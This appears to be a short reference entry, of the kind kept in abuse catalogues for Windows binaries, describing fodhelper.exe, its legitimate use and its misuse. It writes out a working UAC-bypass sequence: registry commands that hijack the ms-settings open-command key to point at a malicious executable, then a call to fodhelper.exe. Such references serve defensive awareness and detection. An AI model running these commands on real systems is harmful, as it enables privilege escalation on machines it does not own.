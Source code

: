 # fodhelper.exe
## What is it?
*A system utility that manages Windows optional features.*

## Legitimate Use
- *Used to enable or disable Windows features.*

## How to Abuse it
- *Attackers can hijack registry values to execute commands with high privileges.*

## Example Attacks
```
reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /d ""

reg add HKCU\Software\Classes\ms-settings\shell\open\command /t REG_SZ /d "C:\malicious.exe"

fodhelper.exe
```
